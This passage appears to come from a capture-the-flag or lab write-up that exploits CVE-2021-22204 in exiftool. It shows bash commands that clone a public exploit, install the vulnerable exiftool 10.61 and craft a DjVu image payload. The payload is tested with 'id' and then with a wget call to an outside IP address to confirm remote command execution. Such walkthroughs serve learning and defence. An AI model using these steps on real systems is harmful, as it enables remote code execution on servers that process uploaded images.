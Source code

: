 We can also create a shared volume, so that transferring malicious payloads between the docker image, and main host is easy. 

The following script initializes the docker container, and installs the exploit and necessary tools.

```bash
apt update
apt install git -y
apt install bc -y

cd /mnt/exploit
git clone https://github.com/se162xg/CVE-2021-22204.git
cd CVE-2021-22204

sed -i 's/sudo//g' craft_a_djvu_exploit.sh
```

The following script then installs the exploitable exiftool version. 

```bash
cd /mnt
apt install wget -y
wget https://github.com/exiftool/exiftool/archive/refs/tags/10.61.tar.gz
tar xzvf 10.61.tar.gz
cd exiftool-10.61
perl Makefile.PL
./exiftool
```

![](/assets/images/mystiko/mystiko-8.png)

We can give the exploit a test run by generating the basic image payload with the command `id`, then running exiftool against the generated image.  

![](/assets/images/mystiko/mystiko-9.png)

It works!
We have the local exploit running, now all that is needed is to run it remotely, should be easy right...
<br>

```bash
bash craft_a_djvu_exploit.sh "/usr/bin/wget http://10.2.76.47"
```
